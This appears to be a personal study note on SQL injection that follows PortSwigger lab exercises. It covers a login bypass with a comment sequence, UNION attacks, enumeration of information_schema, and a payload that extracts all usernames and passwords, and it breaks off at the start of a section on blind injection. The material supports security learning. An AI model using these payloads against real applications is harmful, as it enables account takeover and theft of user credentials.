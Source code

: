 - Normal web application allow the user to login with the user name and password, the application authenticate the user by checking the data from the database like this:
- `SELECT * FROM users WHERE username = 'username' AND password = 'password'`
- If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

In this case, an attacker can log in as any user without the need for a password. They can do this using the SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query. For example, submitting the username `administrator'--` and a blank password results in the following query:

`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

This query returns the user whose `username` is `administrator` and successfully logs the attacker in as that user.

# SQL injection UNION attacks

When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the `UNION` keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.

The `UNION` keyword enables you to execute one or more additional `SELECT` queries and append the results to the original query. For example:

`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

- we can use inpect method and go to the network bar and try to edit and resend it to the back end !

```
UNION + SELECT + NULL + NULL + NULL --
```

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

|   |   |
|---|---|
|Oracle|`SUBSTR('foobar', 4, 2)`|
|Microsoft|`SUBSTRING('foobar', 4, 2)`|
|PostgreSQL|`SUBSTRING('foobar', 4, 2)`|
|MySQL|`SUBSTRING('foobar', 4, 2`|
**TO Query the database type of mysql or Microsoft we send the database parameter by adding  
UNION + SELECT + NULL + NULL + NULL -- some place holders like alpahabet or numerical value and send it back the repeater and for get 200 ok and scroll down to see some info and the version**

![[Pasted image 20241019223803.png]]

### listing the database of non oracle
- The application has a login function, and the database contains a table that holds usernames and passwords. we need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter:
    
    `'+UNION+SELECT+'abc','def'--`
3. Use the following payload to retrieve the list of tables in the database:
    
    `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    
    `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    
    `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`
8. Find the password for the `administrator` user, and use it to log in.
## Sql injection UNION attack. retrieving multiple values.

- In order to retrieve all usernames and passwords and login as administrator.
- to test weather it is Vulnerable or not we type '  and if we found ***Internal server error*** we are ordering columns that doesn't exist.
- as usual we are finding table of usernames er concatenate string for the PostgreSQL version syntax || "~" ||
```
- `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
```

### BLIND SQL Injection with conditional responses.
- It is a form of sqli we don't get text info in the web server, but we do get info leak of certain information about the server.